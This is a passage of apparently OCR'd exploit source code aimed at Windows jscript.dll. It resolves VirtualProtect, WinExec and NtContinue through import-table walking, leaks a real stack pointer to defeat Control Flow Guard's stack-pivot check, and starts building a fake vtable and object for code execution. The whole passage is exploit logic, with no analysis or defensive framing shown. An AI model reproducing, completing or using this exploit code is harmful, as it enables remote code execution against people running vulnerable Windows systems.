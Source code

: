         var VirtualProtectAddress;
        var WinExecAddress;

        if(PayloadType == "shellcode") {
            // Resolve APIs for command execution: NTDLL.DLL!NtContinue, KERNEL32.DLL!VirtualProtect

            VirtualProtectAddress = ResolveExport64(Kernel32Base, [ 0x74726956, 0x506c6175, 0x65746f72, 0x00007463 ]); // VirtualProtect

            if(!VirtualProtectAddress.low && !VirtualProtectAddress.high) {
                DebugLog("Failed to resolve address of KERNEL32.DLL!VirtualProtect");
                return 0;
            }

            DebugLog("Successfully resolved address of VirtualProtect to: 0x" + VirtualProtectAddress.high.toString(16) + VirtualProtectAddress.low.toString(16));
        }
        else if(PayloadType == "winexec") {
            // Resolve APIs for command execution: NTDLL.DLL!NtContinue, KERNEL32.DLL!WinExec

            WinExecAddress = ResolveExport64(Kernel32Base, [0x456e6957]);

            if(!WinExecAddress.low && !WinExecAddress.high) {
                DebugLog("Failed to resolve address of KERNEL32.DLL!WinExec");
                return 0;
            }
        }

        var MsvcrtBase = BaseFromImports64(JScriptBase, [0x6376736d, 0x642e7472]);

        if(!MsvcrtBase.low && !MsvcrtBase.high) {
            DebugLog("Msvcrt.dll base resolution via Jscript.dll imports failed.");
            return 0;
        }

        var NtdllBase = BaseFromImports64(MsvcrtBase, [0x6c64746e, 0x6c642e6c]);

        if(!NtdllBase.low && !NtdllBase.high) {
            DebugLog("Ntdll.dll base resolution via Msvcrt.dll imports failed.");
            return 0;
        }

        var NtContinueAddress = ResolveExport64(NtdllBase, [0x6f43744e, 0x6e69746e]);

        if(!NtContinueAddress.low && !NtContinueAddress.high) {
            DebugLog("Failed to resolve address of NTDLL.DLL!NtContinue");
            return 0;
        }

        // Leak an authentic stack pointer to avoid triggering the stack pivot protection built into CFG on Windows 8.1+ within the kernel layer of NTDLL.DLL!NtContinue

        var CSessionAddress = LeakQword64(MakeQword(ObjectAddress.high, ObjectAddress.low + 24)); // Get CSession from offset 24
        var LeakedStackPtr = LeakQword64(MakeQword(CSessionAddress.high, CSessionAddress.low + 80));
        LeakedStackPtr.low += 0x8; // Stack alignment needs to be at a 0x10 boundary prior to CALL

        // Construct a fake vtable and fake object for use within mutable var property name
